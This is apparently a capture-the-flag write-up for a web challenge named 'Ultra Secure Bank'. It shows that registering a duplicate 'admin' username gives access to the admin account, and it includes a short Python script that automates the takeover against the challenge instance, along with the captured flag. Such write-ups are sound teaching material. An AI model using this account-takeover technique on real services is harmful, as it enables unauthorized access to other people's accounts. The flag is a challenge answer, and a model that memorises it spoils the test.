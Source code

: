 #  USB - Ultra Secure Bank

## Description

Ultra Secure Bank was famous for being super safe — so safe that no one could break in. So the bank challenged the whole world to try to break in. Can you find your way into the most secure account and save the day? Find a way past its strong security? Show your skills and conquer the Ultra Secure Bank!

## Solution

1. Register on a website as username admin
2. Login using the admin credentials (The response was visible in burp repeater)
6. This was the code I came up with to automate the exploit:
```python
import requests

reg_url = "https://ch4466176071.ch.eng.run/api/register"
log_url = "https://ch4466176071.ch.eng.run/api/login"
headers = {"Sec-Ch-Ua-Mobile": "?0", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36", "Content-Type": "application/json"}
data_json={"password": "admin", "username": "admin"}
requests.post(reg_url, headers=headers, json=data_json)
res = requests.post(log_url, headers=headers, json=data_json)
print(res.json())
```
7. Simply replace the url with your instance url and run the code using python3

## Screenshots

![Image 1](images/image1.png)

## Flag

flag{FN1+QS28tg67sxW42RlTkg==}